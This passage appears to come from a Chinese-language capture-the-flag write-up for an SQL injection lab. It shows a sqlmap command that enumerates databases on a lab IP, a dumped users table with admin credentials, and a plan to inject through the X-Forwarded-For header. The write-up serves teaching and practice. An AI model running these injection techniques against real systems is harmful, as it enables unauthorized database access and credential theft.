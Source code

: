 ```
[http://10.10.135.78/user?id=1](http://10.10.135.78/user?id=1)
```

从用户作者中找到另一个参数。让我们试试吧

```
# sqlmap -u "http://10.10.X.X/user?id=1" -p "id" --risk=3 --level=3 --dbs --dbms=mysql --threads 10available databases [2]:
[*] information_schema
**[*] sqhell_4**
```

好了，现在又有一个新的数据库可用了

```
Database: **sqhell_4**Table: users
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | password |
+----+----------+----------+
```

但是这个数据库中只有一个表。🤔让我们看看提示

![](img/6ec12235f84e198429dc7334ed58a048.png)

上面写着“我们出于分析目的记录你的 IP 地址”。可能是系统从请求中获取 IP 地址并保存到数据库中。根据使用 PHP 的经验，`**X-Fowarded-For**`头是用来记录用户 IP 地址的。那么，让我们注射到头部，
